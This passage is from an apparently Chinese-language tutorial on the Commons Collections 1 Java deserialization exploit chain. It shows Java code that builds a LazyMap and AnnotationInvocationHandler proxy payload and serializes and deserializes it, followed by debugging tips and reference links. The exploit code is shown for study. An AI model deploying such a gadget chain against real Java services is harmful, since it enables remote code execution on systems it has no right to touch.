// 用于遍历触发对应的 transform 方法，控制数组第一个参数即可
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
// 被装饰的 map，Since:HashMap, TreeMap, Hashtable...
HashMap hashMap = new HashMap();
hashMap.put("value", "dddd");
// 装饰，修改 factory 的值，用于调用对应类的 transform 方法
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
// 反序列化触发类
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
// 通过动态代理创建对象
//Object annoInvHdlObj = constructor.newInstance(Target.class, transformedMap);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
// 序列化
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(handler);
oos.close();
System.out.println(baos);
// 反序列化
ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
ObjectInputStream ois = new ObjectInputStream(bais);
Object obj = (Object) ois.readObject();
// 序列化、反序列化
// Serializer.serialized(handler, "/src/test/resources/cc1.ser");
// Deserializer.deserialized("/src/test/resources/cc1.ser");
}
}

代理后的对象叫做 proxyMap，但我们不能直接对其进行序列化，因为我们入口点是
sun.reflect.annotation.AnnotationInvocationHandler#readObject，所以我们还需要再用
AnnotationInvocationHandler 对这个 proxyMap 进行包裹。

如调试的时候还没反序列化就弹出了计算器，可以把下面这个选项取消掉。
关于 IDEA 在 debug 时私自调用 toString()方法的问题_lkforce 的博客-CSDN 博客
- IDEA 在 debug 时，当 debug 到某个对象时，会调用对象的 toString()方法，用来在 debug 界面显示对象信息。
- IDEA 调用 toString() 方法时，即使在 toString() 方法中设置了断点，该断点也不会被触发，也就是说，开发者多数情况下不会知道 toString() 方法被调用了。
- 多数情况下调用一下 toString() 方法没有什么问题，但是也有例外，比如重写了 toString() 方法的类，随意的调用 toString() 方法会导致未知的问题。
- 比如 Dubbo 的 AbstractConfig 类，对这个类的 debug 会导致其子类 ReferenceConfig 的 initialized 属性错误的被修改为 true，进而无法正确的生成 Dubbo 代理。

前人栽树
- 伟大的 Java 安全漫谈 - 09 ~ 11
- Commons Collections Java 反序列化漏洞深入分析 - 博客 - 腾讯安全应急响应中心 (tencent.com)
- 白日梦组长
- Apache Commons Collections 包和简介 | 闪烁之狐 (blinkfox.github.io)
- What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability. (foxglovesecurity.com)
- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478